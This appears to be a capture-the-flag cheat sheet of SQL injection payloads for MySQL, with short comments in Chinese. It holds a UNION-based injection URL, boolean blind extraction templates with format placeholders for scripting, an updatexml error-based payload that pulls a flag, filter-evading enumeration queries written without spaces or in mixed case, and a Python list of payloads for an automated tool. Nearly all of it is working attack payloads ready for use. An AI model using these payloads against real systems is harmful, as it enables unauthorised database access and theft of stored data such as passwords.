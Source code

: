 - ```sql
  http://172.27.16.101:20123/sqlInject.php?id=2 union select (select group_concat(table_name) from information_schema.tables where table_schema=database())
  xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),1,1)like('c'))||'
  xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),%d,1)regexp'%s$')||'
  "||updatexml(1,concat(0x7e,(select(flag)from(flag)),0x7e),1)#
  ```
-
- ```sql
  # 数据库名
  select database()
  # 数据库版本名
  select version()
  # 当前正在执行的语句，可以看到表的结构
  select Info from information_schema.processlist limit 0,1
  # 表名
  select group_concat(table_name) from information_schema.tables where table_schema=database()
  select(group_concat(table_name)from(mysql.innodb_table_stats)where((database_name)regexp(database())
  select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database())
  (select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))
  # 列名
  select group_concat(column_name) from information_schema.columns where table_name="table_name2333"
  select(group_concat(column_name))from(information_schema.columns)where(table_name='table_name2333')
  # 从表中选择
  select * from flag
  select(group_concat(password))from(F1naI1y)
  ```
- ```python
  sql_targets = Targets(
      database=["database()"],
      all_databases=["(select group_concat(schema_name) from information_schema.schemata)"],
      version=["version()"],
      table_name=[
          "(select group_concat(table_name) from information_schema.tables where table_schema=database())",
          "(select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database()))",
          "(Select(Group_Concat(Table_name))From(InfOrmation_Schema.Tables)Where(Table_Schema)Regexp(Database()))",
          "(select(group_concat(table_name)from(mysql.innodb_table_stats)where((database_name)regexp(database())))",
          "(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))"
      ],
      column_name=[
          "(select(group_concat(column_name))from(information_schema.columns)where(table_name='TABLE_NAME'))",
          "(Select(Group_Concat(Column_Name))From(InfOrmation_Schema.Columns)Where((Table_Name)regexp'TABLE_NAME'))",
          "(select group_concat(column_name) from information_schema.columns where table_name='TABLE_NAME')",
      ]
  )
  ```